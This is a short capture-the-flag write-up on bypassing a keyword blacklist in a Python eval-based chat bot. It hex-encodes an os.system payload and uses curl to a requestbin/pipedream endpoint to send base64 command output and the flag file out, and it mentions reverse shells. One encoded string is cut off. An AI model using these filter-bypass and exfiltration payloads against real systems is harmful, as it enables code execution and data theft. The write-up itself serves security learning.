 # Solve

- We notice quite quickly that a blacklist filtering prevent us from executing classic payloads using 'import', 'os' etc.
- We can, for instance, go through some form of encoding to hide the payload (like hexadecimal encoding) to prevent them from being detected by the filter :
- Luckily for us, it's possible to write an hexa string directly in Python as long as e precede each character with '\x' (the string does not contain ';' or line breaks prohibited by the 'eval function) :

```__import__('os').system('ls')
```

becomes :


```'\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x>
```



We can then give this string to 'eval' to execute it :

```!monkey order eval('\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f\x28\x27\x6f\x73\x27\x29\x2e\x73\x79\x73\x74\x65\x6d\x28\x27\x60\x6c\x73\x27\x29')```

It gives the following result :

```You just ordered 0 bananas!```

- Unfortunately, we do not have access to the result of the command but only to its return code (0 in case of good execution). To get access to the command's output we can try to exfiltrate it with an http endpoint which can be an handmade website or to go faster a requestbin.com endpoint. We can imagine a payload like this :

```__import__('os').system('curl https://yourendpoint.x.pipedream.net?payload=`ls | base64`')```

-> We can get the output of the requestbin command by decoding the GET argument from the request. We get then a strange folder which contains the flag. We create the final payload :

```__import__('os').system('curl https://yourendpoint.x.pipedream.net?payload=`cat 4a5566104e7e692983399d5843f2665f/flag.txt| base64`')```

Note : It was also of course possible to get a reverse shell on the machine by encoding the classic payloads to succeed!
